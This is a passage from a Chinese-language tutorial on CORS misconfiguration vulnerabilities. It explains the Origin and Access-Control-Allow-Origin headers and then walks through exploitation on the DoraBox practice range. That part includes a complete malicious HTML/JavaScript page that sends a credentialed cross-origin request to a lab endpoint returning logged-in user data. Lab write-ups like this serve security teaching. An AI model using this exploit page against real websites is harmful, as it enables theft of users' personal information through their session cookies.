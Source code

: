 
  

`response`

    
    
    11  HTTP/1.1 200 OK  
    12  Date: Mon, 01 Dec 2020 00:23:53 GMT  
    13  Server: Apache/2.0.61   
    14  Access-Control-Allow-Origin: *  
    15  Keep-Alive: timeout=2, max=100  
    16  Connection: Keep-Alive  
    17  Transfer-Encoding: chunked  
    18  Content-Type: application/xml  
    

  

第 1~9 行是请求首部。在第10行的请求头 Origin 表明该请求来源于 http://example.com。  
第 11~18 行是来自于 http://bar.com 的服务端响应。响应中携带了响应首部字段 Access-Control-Allow-Origin（第
14 行）。使用 Origin 和 Access-Control-Allow-Origin 就能完成最简单的访问控制。本例中，服务端返回的 Access-
Control-Allow-Origin: * 表明，该资源可以被任意外域访问。如果服务端仅允许来自 http://example.com
的访问，该首部字段的内容如下：  
`Access-Control-Allow-Origin: http://example.com`  
如果跨域请求可以包含cookie的话，在服务器响应里应该有这一字段：  
`Access-Control-Allow-Credentials: true`  
这样的话攻击者就可以利用这个漏洞来窃取已经在这个网站上登录了的用户的信息（利用cookie）

# 3|0漏洞利用

  

这里以droabox靶场为例  
![](https://gitee.com/fuli009/images/raw/master/public/20210811182650.png)  
这个接口会返回已登录的用户的信息数据，通过访问该网页的响应我们看到这里可能存在CORS跨域资源共享漏洞  
![](https://gitee.com/fuli009/images/raw/master/public/20210811182651.png)  
接下来我们就可以建立一个恶意的js代码

    
    
    <!-- cors.html -->  
    <!DOCTYPE html>  
    <html>  
    <head>  
     <title>cors exp</title>  
    </head>  
    <body>  
    <script type="text/javascript">  
    function cors() {    
    var xhttp = new XMLHttpRequest();    
    xhttp.onreadystatechange = function() {      
        if (this.status == 200) {      
        alert(this.responseText);       
        document.getElementById("demo").innerHTML = this.responseText;      
        }    
    };    
    xhttp.open("GET", "http://192.168.0.101/DoraBox/csrf/userinfo.php");    
    xhttp.withCredentials = true;    
    xhttp.send();  
    }  
    cors();  
    </script>  
    </body>  
    </html>  
    